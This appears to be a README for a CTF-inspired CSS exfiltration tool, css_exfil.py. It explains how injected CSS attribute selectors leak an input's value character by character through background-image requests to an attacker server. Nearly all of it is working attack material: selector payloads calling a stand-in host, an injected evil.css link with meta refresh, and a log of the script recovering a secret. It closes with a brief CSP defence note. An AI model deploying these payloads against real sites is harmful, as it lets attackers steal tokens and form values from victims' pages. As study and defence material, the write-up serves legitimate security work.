 # CSS Exfil

## Concept
This is inspired by a web challenge called "Free as is Freedom" that was proposed in the 2019 [X-MAS CTF](https://xmas.htsp.ro/home). In this challenge you were able to inject an arbitrary string into a document that the victim would then load in a browser. It looks like a traditionnal XSS challenge, except in this case the CSP doesn't allow you to run javascript and there is no way around it. Instead, the idea is to exfiltrate the value of an HTML attribute using [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors).

Let's say you want to exfiltrate the value of the `value` attribute:
```html
<input type="text" id="name" value="S3cr3t">
```
What you need to do is inject a bunch of [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors), each matching a value starting with a different character:
```CSS
input#name[value^="a"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="b"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S"] { background: url("http://myip:myport/reveal?c=S"); }
...
```
It can be done either by injecting the payload above directly into the victim's document, or by injecting a link to your own web server, which will respond with the same payload:
```HTML
<link rel="stylesheet" href="http://myip:myport/evil.css">
```
Only one the CSS selectors will match, and it will trigger a `GET` request to your server to load the corresponding background image. In this case, you will receive the following request:
```
GET /reveal?c=S HTTP/1.1
...
```
You've read the first character. You can repeat the process to read the second character using this payload:
```CSS
input#name[value^="Sa"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="Sb"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S3"] { background: url("http://myip:myport/reveal?c=S"); }
...
```
# The Script
The `css_exfil.py` script automates this process. It uses [Flask](https://palletsprojects.com/p/flask/) to serve the payloads and retrieve the exfiltrated characters. A request to `/evil.css` returns the set of CSS attribute selectors that is used to reveal the next character. A request to `/reveal?c=x` (made to retrieve the background image) returns a 404 error and adds `x` to the exfiltrated secret. It two consecutive requests are made to the `/evil.css` URL with no `/reveal` request in between then it means the last set of CSS attribute selectors haven't matched anything, and the secret has been read completely.

For this to work, we need the victim to make repeated requests to `evil.css`. It can be done by adding a `refresh` to the injected payload:
```html
<link rel="stylesheet" href="http://myip:myport/evil.css">
<meta http-equiv="refresh" content="1">
```
The script is run as follows:
```
$ ./css_exfil.py -l $myip:$myport -s 'input#name' -a value
 * Serving Flask app "css_exfil" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8080/ (Press CTRL+C to quit)
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /reveal?c=S HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /reveal?c=c HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /reveal?c=r HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /reveal?c=t HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:44] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:45] "GET /evil.css HTTP/1.1" 200 -
S3cr3t
```
## Defense
Other than properly sanitizing user input to prevent HTML injection, the `style-src-elem` or the broader `style-src` (or `default-src`) CSP rules can be set to prevent loading CSS files from untrusted resources.
## Links
[Stealing Data With CSS: Attack and Defense](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)

